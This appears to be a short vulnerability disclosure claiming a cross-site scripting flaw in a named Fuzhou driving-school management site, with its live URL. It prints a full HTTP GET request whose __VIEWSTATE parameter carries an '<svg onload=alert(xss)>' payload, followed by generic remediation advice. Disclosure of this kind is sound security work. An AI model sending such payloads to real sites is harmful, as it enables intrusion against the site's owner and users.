

Fuzhou Middle Road Automobile training Co., LTD
XSS vulnerability exists in the driving training service management system

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

http://www.hdschina.com/jx.html

```
GET /?10000000=ds5x3&__EVENTTARGET=nt5s9&__VIEWSTATE=__VIEWSTATE=<svg onload=alert(xss)>//&callback=genz6&code=gj8d8&gw_news=gb209&item=zj685&jsonp=db776&l=q1n18&name=kwm75&page_id=mn038&password=crsu4&q=bh0q0&redirect=eswo5&src=v8gc0&text=njmb1&tid=bmo19&txt_name=mezp4&unsubscribe_token=i20d8&view=x2zf0 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip

```



**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.